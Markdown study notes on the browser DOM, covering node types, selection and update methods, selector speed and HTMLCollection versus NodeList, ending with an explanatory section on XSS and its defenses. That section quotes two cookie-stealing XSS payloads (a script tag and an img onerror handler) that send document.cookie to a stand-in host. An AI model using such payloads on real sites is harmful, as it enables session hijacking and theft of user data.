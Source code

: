 # Document Object Model

Not a part of HTML & not a part of JS, the DOM specifies how a browser should model an HTML page and how JS can update the contents of that page.

## The DOM Tree

Four types of node:

1. **Document:** Represents the entire page, corresponds with the `document` object. Every node is accessed through this one.
2. **Element:** Describe the structure of an HTML page. After finding an element node, you can then access its attribute or text nodes.
3. **Attribute:** Not children of an element node but part of that element.
4. **Text:** Child of the element node. Cannot have children itself - therefore always a new branch of the DOM tree, no further branches can come off it.

## Working with the DOM Tree

Two steps:

1. Access the element
   - Select an individual element with `getElementById()`, `querySelector()`
   - Select multiple elements with `getElementsByClassName()`, `getElementsByTagName()`, `querySelectorAll()`
     - These methods always return a `NodeList`, even if only one element matches
   - Traverse between nodes with `parentNode`, `previousSibling`/`nextSibling`, `firstChild`/`lastChild`
2. Work with the element
   - Access/update text nodes with `nodeValue`, `textContent`, `innerText`
     - Faster than `innerHTML` because they don't parse HTML, just use straight text
     - `nodeValue` and `textContent` are basically the same but `nodeValue` only works on text nodes. It is older and lesser seen
     - `innerText` takes style into account so is the slowest - e.g. won't return text hidden by `display: none`
   - Work with HTML content with `innerHTML`, or add more nodes with `createElement()`, `createTextNode()`, `appendChild()`/`removeChild()`
   - Access/update attributes with `className`/`id`, `hasAttribute()`, `getAttribute()`, `setAttribute()`, `removeAttribute()`

> Inconsistencies between browsers and the code examples mentioned above is one of the main reasons for jQuery's popularity.

## Caching DOM Queries

- To save the interpreter searching the DOM tree every time you want to work with a particular element, you can use a variable to store the result of your query
- The variable stores a reference to the node object (the location), it doesn't store the node itself
- e.g. `var itemOne = getElementById('one`);
- Any updates to the variable will be reflected by the node and subsequently the HTML of the web page

### Selector Speed

- `getElementById()` and `getElementsByClassName()` are about twice as fast as the others.
- CSS selectors in ascending order of runtime:
  1. ID
  2. Class
  3. Tag
  4. General/adjacent sibling (`~`, `+`)
  5. Child and descendent (space, `>`)
  6. Universal (`*`)
  7. Attribute
  8. Pseudo-class/pseudo-element

## Query return values

- `getElementsByClassName()`: `HTMLCollection`, live
- `getElementsByTagName()`: `HTMLCollection`, live
- `querySelectorAll()`: `NodeList`, static
- `getElementsByName()`: `NodeList`, live

### `HTMLCollection` vs. `NodeList`

- `HTMLCollections` represent a **list** of DOM nodes, are always live.
  - List of nodes
  - Access methods are by a node's `name` or `id` attributes
  - Only have `item()` and `namedItem()` methods
- `NodeLists` represent a **collection** of nodes and are a more general construct, not necessarily live
  - Reflect whatever the selector matches at the time of the query
  - The nodes themselves may or may not be in the actual DOM, depending on the interface used to retrieve them
  - Have more methods including `item()`, `forEach()`, `entries()`, `keys()`, `values()`

## XSS Attacks

- Involves an attacker placing malicious code into a site, e.g. through user-submitted content as comments or account details
- Can give an attacker access to information in the DOM, website cookies, session tokens. Can allow them to make fraudulent purchases, post bad content, spread malicious code further
- Examples:
  - `<script>var = adr='http://example.com/xss.php?cookie=' + escape(document.cookie);</script>` can store cookie data in a variable, then send it to a 3rd-party server
  - `img src='http://nofile' onerror='adr="http://example.com/xss.php?" + escape(document.cookie)';` can be used to trigger malicious code on an image error

### Defending against XSS

1. Validate input:
   - Only let users input a subset of characters
   - Do not allow untrusted users to submit anything
   - Double-check validation server-side, in case the user has bypassed validation client-side by disabling JS
     - Eliminate JS by escaping all ASCII characters with value < 256 that aren't alphanumeric
2. Escape data from the server
   - As data leaves the db, escape all potentially dangerous characters to prevent parsing
     - Most dbs will have helper functions to strip this kind of content
     - E.g. always escape HTML entities like `&amp;`, `quot;` etc.
   - Ensure content generated by users is only being added to certain sections of template files
     - For user-submitted URLs, use `encodeURIComponent()` to encode `,`, `/`, `?`, `:`, `@`, `&`, `=`, `+`, `$`, `#`\
     - Never add untrusted content to script tags, HTML comments, tag names, attributes, or CSS values
   - Do not create HTML fragments from untrusted sources; only add as text after escaping
